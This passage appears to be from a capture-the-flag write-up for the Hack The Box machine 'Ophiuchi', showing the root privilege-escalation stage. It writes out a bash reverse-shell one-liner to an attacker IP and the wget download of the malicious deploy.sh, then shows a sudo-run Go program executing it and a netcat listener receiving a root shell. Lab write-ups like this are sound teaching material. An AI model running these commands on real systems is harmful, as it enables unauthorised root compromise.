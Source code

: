 The next step is to create something to replace the `deploy.sh` script. I used a reverse shell as it seemed the easiest - but there are many options here to elevate privilege to root.

```none
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.5/9001 0>&1'" > deploy.sh
```

In the next step, we need to copy the `main.wasm` and `deploy.sh` files to the server. I choose to save both in the `/tmp` folder.

```none
admin@ophiuchi:/opt/wasm-functions$ cd /tmp/
admin@ophiuchi:/tmp$ wget http://10.10.14.5:8000/deploy.sh
--2021-08-15 00:00:04--  http://10.10.14.5:8000/deploy.sh
Connecting to 10.10.14.5:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 51 [text/x-sh]
Saving to: ‘deploy.sh’

deploy.sh                    100%[==============================================>]      51  --.-KB/s    in 0s      

2021-08-15 00:00:04 (6.30 MB/s) - ‘deploy.sh’ saved [51/51]

admin@ophiuchi:/tmp$ wget http://10.10.14.5:8000/main.wasm
--2021-08-15 00:00:10--  http://10.10.14.5:8000/main.wasm
Connecting to 10.10.14.5:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 523 [application/wasm]
Saving to: ‘main.wasm’

main.wasm                    100%[==============================================>]     523  --.-KB/s    in 0.004s  

2021-08-15 00:00:10 (138 KB/s) - ‘main.wasm’ saved [523/523]
```

With both modified files uploaded to the target, enter the `tmp` directory (where we saved the modified file) and run the `sudo` command.

```none
admin@ophiuchi:/tmp$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Ready to deploy
```

Since we ran a reverse shell, the console hangs. But if we navigate to our netcat listener, we can see we got a connection back, and are the root user.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.227] 38282
root@ophiuchi:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ophiuchi:/tmp# wc -c /root/root.txt
wc -c /root/root.txt
33 /root/root.txt
```

